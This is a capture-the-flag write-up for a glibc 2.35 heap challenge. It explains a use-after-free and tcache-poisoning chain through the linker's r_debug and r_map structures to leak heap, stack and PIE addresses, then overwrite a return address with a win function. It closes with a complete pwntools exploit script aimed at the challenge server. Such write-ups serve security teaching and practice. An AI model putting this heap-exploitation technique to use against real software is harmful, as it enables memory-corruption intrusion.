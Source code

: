 # SLIME MACHINE REVENGE REVENGE
> Author: 堇姬Naup

tag: pwn, heap, gilbc 2.35

## description
Tsundere slime is the cutest!!! But it's not easy for you to win her heart.

## writeup
Same concept as the previous question.But it just give me ld base address.
My solution is struct `_r_debug` look like this
```c
struct r_debug
  { 
    int r_version;              /* Version number for this protocol. */

    struct link_map *r_map;     /* Head of the chain of loaded objects. */

    /* This is the address of a function internal to the run-time linker, that will always be called when the linker begins to map in a library or unmap it, and again when the mapping change is complete. The debugger can set a breakpoint at this address if it wants to notice shared object mapping changes. */
    ElfW(Addr) r_brk;
    enum
      { 
        /* This state value describes the mapping change taking place when the `r_brk' address is called. */
        RT_CONSISTENT,          /* Mapping change is complete. */
        RT_ADD,                 /* Beginning to add a new object. */
        RT_DELETE               /* Beginning to remove an object mapping. */
      } r_state;

    ElfW(Addr) r_ldbase;        /* Base address the linker is loaded at. */
  };
```

It has `r_map`. Struct `r_map` have PIE address and r_map-0x10(environ) have stack address.
First is use UAF leak heap base, and use it caculate all heap pointer.
Use tcache poisoning allocate fake chunk to `r_debug` and UAF read r_map address. And then allocate chunk to `r_map` read PIE address and stack address.
If I have PIE base, I can caculate accurately win function address
And malloc one chunk to return address and UAF write win function address. 
Choose exir and will RCE~

PS: Because of ld and libc base offset the same in the same environment, so use house of xxx write libc address may get RCE.

## flag
> NHNC{Tsundere_slime_is_not_that_easy_to_handle_is_it?}

## exploit
```py
from pwn import *
from libs.NAUP_pwn_lib import *
import time
from libs.NAUP_filestructure_lib import *
from libs.NAUP_fmt_lib import *

def s(payload): return r.send(payload)
def sl(payload): return r.sendline(payload)
def sla(after, payload): return r.sendlineafter(after, payload)
def sa(after, payload): return r.sendafter(after, payload)
def rc(num): return r.recv(num)
def rcl(): return r.recvline()
def rcls(num): return r.recvlines(num)
def rcu(payload): return r.recvuntil(payload)
def ita(): return r.interactive()
def cl(): return r.close()
def tsl(): return time.sleep(0.2)

x64_env()

REMOTE_LOCAL=input("local?(y/n):")

if REMOTE_LOCAL=="y":
    r=process('./chal')
    debug_init()
    
else:                                           
    REMOTE_INFO=split_nc("nc 23.146.248.196 41423")

    REMOTE_IP=REMOTE_INFO[0]
    REMOTE_PORT=int(REMOTE_INFO[1])

    r=remote(REMOTE_IP,REMOTE_PORT)

### attach
if input('attach?(y/n)') == 'y':
    p(r)


### heap I/O
def create(size):
    sla(b'>>> ',b'1')
    sla(b'size:',str(size).encode())

def get(idx):
    sla(b'>>> ',b'2')
    sla(b'index: ', str(idx).encode())

def Set(idx,data):
    sla(b'>>> ',b'3')
    sla(b'index: ',str(idx).encode())
    sla(b'data: ',data)

def delete(idx):
    sla(b'>>> ',b'4')
    sla(b'index: ',str(idx).encode())

def EXIT():
    sla(b'>>> ',b'6')
### exploit

## get ld base
sla(b'>>> ',b'5')
rcu(b"gift: ")
ld_base = int(rcl().strip(),16)
r_debug = ld_base + 0x3b118 

## leak heap base
create(0x60) #0
create(0x60) #1
delete(0)
delete(1)
get(0)

rcu(b']: ')
leakheap = u64(rc(5).ljust(8,b'\x00'))
heapbase = leakheap << 12

chunk0_ptr_addr = heapbase + 0x290 - 0x10
chunk1_ptr_addr = heapbase + 0x300 - 0x10

ld_r_debug_addr = (r_debug - 0x8+0x10) ^ (chunk1_ptr_addr >> 12)
Set(1,p64(ld_r_debug_addr))

## leak r map address
create(0x60) #2
create(0x60) #3

get(3)
rcu(b']: ')
leak_r_map = u64(rc(6).ljust(8,b'\x00'))
environ = leak_r_map - 0x10

## leak stack
create(0x50) #4
create(0x50) #5
delete(4)
delete(5)

chunk4_ptr_addr = heapbase + 0x370 - 0x10
chunk5_ptr_addr = heapbase + 0x3d0 - 0x10

leak_environ_addr = (environ) ^ (chunk5_ptr_addr >> 12)
Set(5,p64(leak_environ_addr))
create(0x50) #6
create(0x50) #7

get(7)
rcu(b']: ')
leakstack = u64(rc(6).ljust(8,b'\x00'))

## leak pie
create(0x40) #8
create(0x40) #9
delete(8)
delete(9)

chunk8_ptr_addr = heapbase + 0x430 - 0x10
chunk9_ptr_addr = heapbase + 0x480 - 0x10
leak_r_map_addr = (leak_r_map+0x10) ^ (chunk9_ptr_addr >> 12)

Set(9,p64(leak_r_map_addr))
create(0x40) #10
create(0x40) #11
get(11)
rcu(b']: ')
leakPIE = u64(rc(6).ljust(8,b'\x00'))
PIE_base = leakPIE - 0x3d68

win_addr = PIE_base + 0x1681 + 0x5
ret_addr = leakstack-0x120

create(0x30) #12
create(0x30) #13
delete(12)
delete(13)

chunk12_ptr_addr = heapbase + 0x4d0 - 0x10
chunk13_ptr_addr = heapbase + 0x510 - 0x10

leak_retaddr = (ret_addr-0x8) ^ (chunk13_ptr_addr >> 12)
Set(13,p64(leak_retaddr))
create(0x30) #14
create(0x30) #15

Set(15,b'a'*0x8 + p64(win_addr))

EXIT()

### INFO
NAUPINFO("LEAKHEAP",hex(leakheap))
NAUPINFO("HEAPBASE",hex(heapbase))
NAUPINFO("LD BASE",hex(ld_base))
NAUPINFO("R_DEBUG",hex(r_debug))
NAUPINFO("fake_chunk",hex(ld_base + 0x3b118 -0x8))
NAUPINFO("LEAK R MAP",hex(leak_r_map))
NAUPINFO("LEAK STACK",hex(leakstack))
NAUPINFO("LEAK PIE ADDR",hex(leak_r_map+0x10))
NAUPINFO("LEAK PIE",hex(leakPIE))
NAUPINFO("PIEBASE",hex(PIE_base))
NAUPINFO("WIN ADDR",hex(win_addr))
NAUPINFO("LEAK ret_addr",hex(ret_addr))
### interactive
ita()
```